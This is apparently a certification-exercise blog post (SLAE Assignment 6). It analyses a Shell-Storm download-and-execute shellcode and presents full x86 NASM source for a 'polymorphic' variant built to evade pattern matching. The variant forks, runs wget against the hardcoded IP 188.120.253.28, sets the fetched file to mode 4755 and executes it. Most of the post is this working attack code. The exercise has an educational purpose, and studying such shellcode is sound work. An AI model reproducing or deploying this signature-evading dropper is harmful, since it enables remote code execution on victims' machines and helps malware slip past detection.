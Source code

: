 # Assignment 6: Download and Execute

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-670

## Problem

- Take up 3 shellcodes from Shell-Storm and create polymorphic versions of them to beat pattern matching
- The polymorphic versions cannot be larger than 150% of the existing shellcode
- Bonus points for making it shorter in length than original

## Solution

In this post we are going to look at the Download and Execute shellcode avaiable at ![http://shell-storm.org/shellcode/files/shellcode-862.php](http://shell-storm.org/shellcode/files/shellcode-862.php "").

### Shellcode Analysis

Tracing the instruction set, we observe that the shellcode first creates a child process (a copy) of itself with the `fork()` system call. The child process is used to download the file that later on is executed by the parent process. Since a child process will return a Process ID of `0`, while the parent process will return a non-zero Process ID, the execution flow is able to determine which instruction set it should execute even though the processes are copies. If PID is zero, the program will go ahead and jump to the download section of the code, where it will use the `execve()` system call to execute `/usr/bin/wget 192.168.2.222//x`. 

While the child process is being executed, the parent process goes on to execute the `waitpid()` system call with PID equal to zero (child process). The  `waitpid()` system  call  suspends execution of the calling process until a child specified by PID argument has changed state. By default, `waitpid()` waits only for terminated children. So, the parent process waits for the download to finish and then goes on to execute the rest of the instructions. 

The parents first uses the `chmod()` system call to execute `chmod 777` on the downloaded file, and then finally proceeds to execute the downloaded file with the `execve()` system call.

It is interesting to note that it was necessary to `fork()` a child in this case because `execve()` does not return execution back to the code that called it. Therefore, by using separate processes for downloading and executing, along with the `waitpid()` functionality, it was possible to execute `execve()` twice from the same shellcode.

### Polymorphic Shellcode

The technique used in the original shellcode sample is entirely replicated in the polymorphic version. Nevertheless, the instruction set is completely different (except for constant strings, such as `/usr/bin/wget` that could of course be used as a fingerprint). Even though Using an encoder would help to remediate this limitation, the shellcode presented here does not include that functionality. It is rather made to be as short as possible.

### a6-dlexec.nasm
```nasm
; SLAE Assignment 6: Download Chmod Execute (morphed)
; http://shell-storm.org/shellcode/files/shellcode-862.php
; Original Shellcode Length:	108
; Morphed Shellcode Length:		96


global _start
section .text
_start:
	push byte 0x2 		; #define __NR_fork 2
	pop eax 			; pid_t fork(void);			--> in child returns 0
	int 0x80 			; make a child
	jz short download 	; if this is a child, download

zzz:
	push byte 0x7 		; #define __NR_waitpid 7
	pop eax 			; pid_t wait(int *status);
	int 0x80 			; wait for the child (download)

chmod:
	push byte 0xf 		; #define __NR_chmod 15
	pop eax 			; int chmod(const char *path, mode_t mode);
	push edx
	push byte 0x62		; b
	mov ebx, esp 		; *path -> b
	push word 0x9ed 	; 4755 (octal)
	pop ecx 			; mode = 4755 
	int 0x80 			; chmod

execve:
	push byte 0xb 		; #define __NR_execve 11
	pop eax 			; int execve(const char *filename, char *const argv[], char *const envp[]);
	push byte 0x62 		; b
	mov ebx, esp 		; *filename -> b
	push edx 			; NULL
	mov edx, esp  		; *envp[] -> 0
	push ebx 			; put filename on the stack
	mov ecx, esp		; *argv[] -> b\0
	int 0x80

download:
	push 0xb			; #define __NR_execve 11
	pop eax				; int execve(const char *filename, char *const argv[], char *const envp[]);
	cdq 				; *envp[] -> 0
	push edx
	push 0x622f3832		; b/82
	push 0x2e333532		; .352
	push 0x2e303231		; .021
	push 0x2e383831		; .881
	mov ecx, esp		; *argv[] -> 188.120.253.28/b
	push edx
	push 0x74			; t
	push 0x6567772f		; egw/
	push 0x6e69622f		; nib/
	push 0x7273752f		; rsu/
	mov ebx, esp		; *filename -> /usr/bin/wget
	push edx
	push ecx
	push ebx
	mov ecx, esp		
	int 0x80 			; download
	```
	
	As can be observed and verified, the morphed version is 12 bytes shorter than the original sample from Shell-Storm.

